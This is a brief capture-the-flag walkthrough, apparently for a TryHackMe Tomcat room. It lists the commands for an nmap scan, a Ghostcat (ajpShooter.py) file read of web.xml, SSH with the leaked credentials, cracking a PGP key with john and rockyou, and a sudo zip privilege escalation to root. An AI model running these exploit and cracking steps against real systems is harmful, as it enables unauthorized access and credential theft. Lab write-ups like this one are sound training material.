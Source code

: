 ```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```
We can see that `8080` is open

Navigate to $IP:8080 on browser

Search for tomcat vulnerabilities on google or `ghostcat github exploit`

Clone down tool called `ajpShooter.py`

```
python ajpShooter.py http://10.10.249.149:8080/ 8009 /WEB-INF/web.xml read
```

ssh using the credentials that fell out. 

We have a `tryhackme.asc` file that is a pgp key.

```
/opt/JohnTheRipper/run/gpg2john tryhackme.asc > hashes_for_john.txt
/opt/JohnTheRipper/run/john --wordlist /opt/rockyou.txt hashes_for_john.txt 
```

Found password. Now we import the asc file using the password.
```
gpg --import tryhackme.asc
```

See whats in there.
```
gpg --decrypt credential.pgp
```

We get another user/password. And there is a flag.

What can we run?
```
sudo -l
```

We find something. Let's go check `gtfobins.github.io`! We can get a shell from zip...

**ROOT**
